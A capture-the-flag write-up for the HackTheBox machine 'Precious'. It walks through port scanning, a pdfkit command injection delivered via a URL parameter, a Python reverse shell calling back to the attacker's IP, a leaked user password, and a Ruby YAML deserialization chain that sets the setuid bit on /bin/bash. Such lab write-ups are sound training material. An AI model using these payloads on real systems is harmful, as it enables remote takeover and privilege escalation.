 ```yaml
---
categories: [HackTheBox]
tags: [PrivEsc, Public Exploit]
image:
  path: /Vulnhub-Files/img/Precious/front.png
  alt: https://www.hackthebox.com/achievement/machine/595651/513
---
```


```jsx
 IP : 10.10.11.189

sudo nano /etc/hosts
10.10.11.189    precious.htb
```
{: .nolineno}
{: .nolineno}

## PORT SCAN RESULTS ➡️

![Untitled](/Vulnhub-Files/img/Precious/Untitled.png)

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Precious]
└─$ **sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.10.11.189**
Starting Nmap 7.93 ( https:/nmap.org ) at 2023-04-15 12:14 IST
Nmap scan report for 10.10.11.189
Host is up (0.17s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http:/precious.htb/
|_http-server-header: nginx/1.18.0
Service Info: ; CPE: cpe:/o:linux:linux_kernel
```
{: .nolineno}
{: .nolineno}

## Web Enumeartion ➡️

![Untitled](/Vulnhub-Files/img/Precious/Untitled%201.png)

Now on Burpsuite I got the pdf Generation version and Name >>

![Untitled](/Vulnhub-Files/img/Precious/Untitled%202.png)

Since it is using `pdfkit v0.8.6`  to generate pdfs So I dig into it and I found that this version is vulnerable > 

![Untitled](/Vulnhub-Files/img/Precious/Untitled%203.png)

It leads us to Link : [Exploit](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795/)

After reading the `POC` I got to known that we can use any get `parameter`
 name and inside that use the `backticks` to injection our command.

```bash
http:/<LOCAL-IP>:<LOCAL-PORT>/?name=%20 `id(command)`
```
{: .nolineno}
{: .nolineno}

Now lets try it out now ➡️

![Untitled](/Vulnhub-Files/img/Precious/Untitled%204.png)

And it generated the pdf with results >>

![Untitled](/Vulnhub-Files/img/Precious/Untitled%205.png)

So lets try for reverse shell now ⤵️

```bash
http:/10.10.14.33:8888/?name=%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.33",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
```
{: .nolineno}
{: .nolineno}

![Untitled](/Vulnhub-Files/img/Precious/Untitled%206.png)

I got this >>

![Untitled](/Vulnhub-Files/img/Precious/Untitled%207.png)

Now lets Login into henry ⤵️

```jsx
henry : **Q3c1AqGHtoI0aXAYFH**
```
{: .nolineno}
{: .nolineno}

![Untitled](/Vulnhub-Files/img/Precious/Untitled%208.png)

![Untitled](/Vulnhub-Files/img/Precious/Untitled%209.png)

Now lets see how to get to root >>

![Untitled](/Vulnhub-Files/img/Precious/Untitled%2010.png)

Now let’s see what is inside this **update_dependencies.rb** file >>

![Untitled](/Vulnhub-Files/img/Precious/Untitled%2011.png)

It is loading this dependencies.yml file >>

```bash
bash-5.1$ cat dependencies.yml]
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "chmod +s /bin/bash"
         method_id: :resolve
bash-5.1$
```
{: .nolineno}
{: .nolineno}

Now I know that the /bin/bash permissions are changed so lets exploit it >>

![Untitled](/Vulnhub-Files/img/Precious/Untitled%2012.png)

![Untitled](/Vulnhub-Files/img/Precious/Untitled%2013.png)

Lets see the flag now ⤵️

![Untitled](/Vulnhub-Files/img/Precious/Untitled%2014.png)

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }